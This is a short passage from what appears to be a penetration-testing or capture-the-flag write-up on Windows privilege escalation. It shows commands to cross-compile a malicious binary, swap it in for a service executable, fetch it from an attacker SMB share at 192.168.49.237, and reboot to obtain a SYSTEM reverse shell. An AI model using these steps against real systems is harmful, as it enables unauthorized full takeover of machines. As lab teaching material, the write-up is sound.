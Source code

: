 On reboot, this will spawn a new reverse shell as SYSTEM.

Cross-compile for Windows: `i686-w64-mingw32-gcc addAdmin.c -o bd.exe`

Move the existing `bd.exe`: `move bd.exe bd.service.exe`

Copy the new malicious `bd.exe`: `copy \\192.168.49.237\ROPNOP\bd.exe .`

Now restart the system: `shutdown /r`. We should be able to catch a shell as SYSTEM:

![](../../.gitbook/assets/93fb81e275c546ce9fb9f6c6cd06e8d9.png)

![](../../.gitbook/assets/51635976728b488aa4e72138b73b9669.png)

